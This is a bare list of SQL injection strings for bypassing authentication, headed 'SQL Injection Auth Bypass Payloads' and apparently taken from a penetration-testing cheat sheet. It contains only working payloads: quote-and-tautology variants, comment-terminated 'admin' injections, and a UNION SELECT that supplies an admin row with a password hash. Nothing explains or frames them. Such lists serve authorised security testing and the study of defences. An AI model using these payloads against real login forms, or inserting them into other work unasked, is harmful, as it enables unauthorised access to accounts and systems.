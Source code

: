 #### SQL Injection Auth Bypass Payloads

```
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
```